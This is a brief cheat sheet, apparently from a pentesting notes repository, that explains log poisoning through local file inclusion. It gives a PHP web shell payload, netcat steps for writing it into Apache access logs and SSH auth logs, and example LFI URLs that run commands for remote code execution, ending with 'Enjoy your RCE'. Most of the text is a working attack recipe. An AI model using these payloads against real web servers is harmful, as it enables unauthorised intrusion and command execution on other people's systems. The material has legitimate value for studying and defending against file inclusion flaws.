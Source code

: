 # Log Poisoning

#### Log Poisoning occurs via LFI attack.

#### If you can access the file /var/log/apache2/access.log, you can inject a webshell as the User-Agent by using web proxy tools like Burpsuite and OWASP ZAP:

### 1) Locate a writable log file

    /var/log/apache2/access.log

### 2) Inject a payload

Inject a simple web shell payload into a request header (e.g., User-Agent or Referer) that the web server will log.

Connect with netcat on the webserver

    nc IP PORT

Inject the payload

Payload:

    <?php echo system($_GET['cmd']); ?>

### 3) Execute via LFI

    http://example.com/vulnerable.php?page=/path/to/log/access.log&cmd=whoami

## Alternate poisoning method: SSH Log Poisoning

### 1) Locate the log file

    /var/log/auth.log

### 2) Poison the auth.log file

Connect to SSH port via netcat

    nc -nv IP 22

Inject payload

    <?php echo system($_GET['cmd']); ?>

### 3) Run commands via your webshell now

    http://domain.local/lfi.php?file=/var/log/auth.log?cmd=whoami

**Enjoy your RCE**

